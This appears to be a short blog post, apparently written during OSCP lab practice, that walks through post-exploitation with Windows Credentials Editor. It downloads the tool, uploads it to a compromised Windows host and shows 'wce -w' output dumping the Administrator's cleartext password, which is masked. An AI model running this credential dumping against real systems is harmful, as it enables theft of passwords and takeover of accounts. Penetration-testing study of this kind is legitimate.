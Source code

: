 ```yaml
---
published: true
layout: post
title: WCE post exploitation
---
```




Download wce

    cd /opt/
    wget http://www.ampliasecurity.com/research/wce_v1_41beta_universal.zip
    unzip wce_v1_41beta_universal.zip -d wce

Upload wce.exe to victim

**Victim**:  Execute wce.  Administrator password displayed in the clear.  (real password masked just in case any potential oscp students are actually reading this)

    C:\Documents and Settings\Administrator\My Documents>wce -w
    wce -w
    WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security -     by Hernan Ochoa (hernan@ampliasecurity.com)
    Use -h for help.

    Administrator\RALPH:<password>
    RALPH$\THINC.LOCAL:
